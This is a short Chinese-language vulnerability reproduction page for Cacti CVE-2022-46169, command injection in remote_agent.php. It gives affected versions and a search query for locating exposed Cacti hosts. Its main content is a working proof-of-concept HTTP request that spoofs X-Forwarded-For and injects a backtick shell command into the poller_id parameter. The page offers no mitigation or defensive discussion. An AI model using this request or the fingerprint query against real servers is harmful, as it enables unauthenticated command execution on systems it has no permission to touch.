

# Cacti remote_agent.php 远程命令执行漏洞 CVE-2022-46169

## 漏洞描述

Cacti是一个服务器监控与管理平台。在其1.2.17-1.2.22版本中存在一处命令注入漏洞，攻击者可以通过X-Forwarded-For请求头绕过服务端校验并在其中执行任意命令。

## 漏洞影响

<a-checkbox checked>Cacti < 1.2.17-1.2.22</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Cacti-监控系统"</a-checkbox></br>

## 漏洞复现

登陆页面


验证POC

```python
GET /remote_agent.php?action=polldata&local_data_ids[0]=6&host_id=1&poller_id=`id>1.txt`
X-Forwarded-For: 127.0.0.1
```


